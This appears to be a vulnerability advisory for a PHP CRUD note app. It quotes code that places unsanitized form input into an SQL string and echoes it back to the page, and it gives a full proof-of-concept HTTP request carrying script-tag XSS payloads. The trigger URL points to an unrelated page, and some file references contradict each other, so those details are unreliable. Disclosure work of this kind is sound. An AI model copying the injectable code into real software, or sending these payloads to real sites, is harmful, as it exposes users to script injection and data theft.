 # simple-crud-functionality-in-php has Cross Site Scripting vulnerability in index.php

## supplier 
https://code-projects.org/simple-crud-functionality-in-php-with-source-code/
## Vulnerability file
index.php

## describe
there are unrestricted cross site scripting attacks and injection attacks in the simple-crud-functionality-in-php in index.php. The controllable parameters are as follows: descr parameter and title parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Line 21-36 in edit.php
```
if(isset($_POST['sub'])){

    if(isset($_POST['srno'])){
        $srno = $_POST['srno'];
        $newtitle = $_POST['newtitle'];
        $newdescr = $_POST['newdescr'];

        $sqledit = "UPDATE `crud`.`notes` SET `Sr.No` = $srno, `title` = '$newtitle', `descr` = '$newdescr', `Time` = NOW() WHERE `notes`.`Sr.No` = $srno;";

        mysqli_query($con, $sqledit);

        header("Location: ./index.php");

mysqli_close($con);
    }
}
```
Updating user's input directly into database without any restrictions.  
Line 63-73 in index.php
```
        echo " <tr>
        <td>".$row['Sr.No']."</td>
        <td>".$row['']."</td>
        <td>".$row['descr']."</td>
        <td>".$row['Time']."</td>
        <td>
         <a href='edit.php'><button name='edit' class='sub'>Edit</button></a>
             <a href='delete.php'><button type='submit' name='delete' class='sub'>Delete</button></a>
           
        </td>
    </tr>";
```
Querying data from the database use echo function to output, with the parameter descr and title not filtered, resulting in the execution of XSS statements.

## POC

```
POST /edit.php HTTP/1.1
Host: localhost:8081
Content-Length: 109
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/edit.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

srno=1&newtitle=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&newdescr=%3Cscript%3Ealert%282%29%3C%2Fscript%3E&sub=

```

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/adicionar-produto.php
```

**Result**

![image-20241128083927477](https://raw.githubusercontent.com/LamentXU123/cve/refs/heads/main/assest/xss3.png)
